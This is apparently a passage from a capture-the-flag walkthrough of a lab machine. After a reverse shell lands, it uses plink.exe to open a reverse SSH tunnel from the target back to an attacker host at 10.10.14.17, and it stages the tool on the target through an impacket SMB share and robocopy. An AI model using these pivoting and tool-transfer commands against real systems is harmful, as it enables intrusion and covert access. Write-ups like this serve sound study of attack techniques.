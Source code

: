 Since the reverse shell was able to connect, maybe try running SSH on a higher port?

```bash
# on kali, start new SSH server
sudo /usr/sbin/sshd -D -p 9999 & 
# on kali, start a tcpdump to look for connections
sudo tcpdump -i tun0 port 9999
# on target, try to login again
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

That was able to connect! However, now there is a new error:

![plink2](./buff/plink2.png)

Looks like the `plink.exe` on the default Kali is out of date. Download a new one from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html:

```bash
# on kali, download & host new plink.exe
rm plink.exe
wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe
sudo impacket-smbserver -smb2support BUBBA .
# on target, download & run new plink.exe
robocopy \\10.10.14.17\BUBBA\ . plink.exe /copy:DT /w:1 /r:1 /v
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

![plink3](./buff/plink3.png)
